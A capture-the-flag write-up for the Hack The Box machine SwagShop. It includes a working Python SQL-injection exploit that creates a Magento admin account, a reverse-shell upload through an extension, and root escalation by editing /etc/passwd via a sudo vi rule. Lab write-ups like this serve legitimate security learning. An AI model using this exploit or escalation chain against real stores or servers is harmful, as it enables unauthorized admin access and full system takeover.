 # Write-up of swagshop HTB

We will start off with nmap scan of the ip 10.10.10.140 

```
[sarthak@sarthak swagshop]$ nmap -sV 10.10.10.140 -v -Pn
Starting Nmap 7.70 ( https://nmap.org ) at 2019-05-19 11:54 IST
NSE: Loaded 43 scripts for scanning.
Initiating Parallel DNS resolution of 1 host. at 11:54
Completed Parallel DNS resolution of 1 host. at 11:54, 0.01s elapsed
Initiating Connect Scan at 11:54
Scanning 10.10.10.140 [1000 ports]
Discovered open port 22/tcp on 10.10.10.140
Discovered open port 80/tcp on 10.10.10.140
Completed Connect Scan at 11:55, 34.33s elapsed (1000 total ports)
Initiating Service scan at 11:55
Scanning 2 services on 10.10.10.140
Completed Service scan at 11:55, 6.52s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.10.140.
Initiating NSE at 11:55
Completed NSE at 11:55, 1.12s elapsed
Initiating NSE at 11:55
Completed NSE at 11:55, 0.00s elapsed
Nmap scan report for 10.10.10.140
Host is up (0.25s latency).
Not shown: 997 closed ports
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp   open     http    Apache httpd 2.4.18 ((Ubuntu))
1045/tcp filtered fpitp
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.42 seconds
```
We have port 80 opened let's see what we got there ...

<<picture 007>>

Here we have Magento platform running,So after googling of 15 min we found a [exploit](https://www.exploit-db.com/exploits/37977) which will create a admin account for us,So let's quickly download and run this exploit(ip address has been already changed inside the exploit)

<<picture 008>>

hmm...it doesn't work ..after reviewing the source code of exploit program was looking for the '/admin/' path let's first find it manually...

<picture 009>

Notice the url here it's weird that it has http://10.10.10.140/index.php/customer/
So what i did here was replaced /customer/ with /admin/ and now we can see the admin panel

<<picture 10>>

Now we will modify the exploit and then run

FINAL EXPLOIT CODE:-
```python
import requests
import base64
import sys

target = "http://10.10.10.140/"

if not target.startswith("http"):
    target = "http://" + target

if target.endswith("/"):
    target = target[:-1]

target_url = target + "/index.php/admin/Cms_Wysiwyg/directive/index/"

q="""
SET @SALT = 'rp';
SET @PASS = CONCAT(MD5(CONCAT( @SALT , '{password}') ), CONCAT(':', @SALT ));
SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;
INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`password`,`created`,`lognum`,`reload_acl_flag`,`is_active`,`extra`,`rp_token`,`rp_token_created_at`) VALUES ('Firstname','Lastname','email@example.com','{username}',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());
INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES (1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = '{username}'),'Firstname');
"""


query = q.replace("\n", "").format(username="forme", password="forme")
pfilter = "popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);{0}".format(query)

# e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ decoded is{{block type=Adminhtml/report_search_grid output=getCsvFile}}
r = requests.post(target_url, 
                  data={"___directive": "e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ",
                        "filter": base64.b64encode(pfilter),
                        "forwarded": 1})
if r.ok:
    print "WORKED"
    print "Check {0}/admin with creds forme:forme".format(target)
else:
    print "DID NOT WORK"

```
Now let's seee

<<picture 11>>

we have creds now after logging in i looked up for exploits to get shell and found one [video](https://www.youtube.com/watch?v=pDKb_LOoDes) on youtube in which that person has uploaded shell by using the filesystem section but then i realised we don't have that section 

So after googling around, I found the [extension](https://pluginarchive.com/magento/magpleasure_filesystem) and way to upload it ...


<<picture 12>>

So after clicking it we got the portal to login

<<picture 13>>

we will use same creds from exploit *forme:forme*

<<picture 14>>

We will upload the filesystem extension 

<<picture 15>>

Now we will go back to admin panel by click on this section

<<picture 16>>

go to System -->File system-->IDE

<<picture 17>>

Open the get.php and replace with the php reverse shell which i got from [here](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)

<<picture 18>>

We got the shell when we opened this link [http://10.10.10.140](http://10.10.10.140)

<<picture 19>>

now we will first make the shell fully interactive

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
ctrl +z
stty raw -echo  
fg
export SHELL=bash
export TERM=xterm
```
Output:-
```
$ which python3                  
/usr/bin/python3
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@swagshop:/$ ^Z
[1]+  Stopped                 nc -nvlp 1234
[sarthak@sarthak swagshop]$ stty raw -echo  
[sarthak@sarthak swagshop]$ nc -nvlp 1234

www-data@swagshop:/$ export SHELL=bash
www-data@swagshop:/$ export TERM=xterm
www-data@swagshop:/$ 
```

now we will see if we have sudo permissions

```
www-data@swagshop:/$ sudo -l
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*
www-data@swagshop:/$ 

```

We can run vi with everything inside html so what we will do is we will make a symlink of passwd file and we will place a openssl hash at root section to login !!


We have created a symlink ...
```
www-data@swagshop:/$ ln -s /etc/passwd /var/www/html/
```

Now we have created a password hash for root as 'pass123'

<<picture21>>

Open passwd file with vi
```
www-data@swagshop:/$ sudo /usr/bin/vi /var/www/html/passwd
```
Placed the hash 

<<picture 22>>

Now login as root

```
www-data@swagshop:/$ su root
Password: 
root@swagshop:/# id
uid=0(root) gid=0(root) groups=0(root)
root@swagshop:/# 
```

<<picture 23>>

That's for all for today guys
I hope you would enjoy this writeup..!!



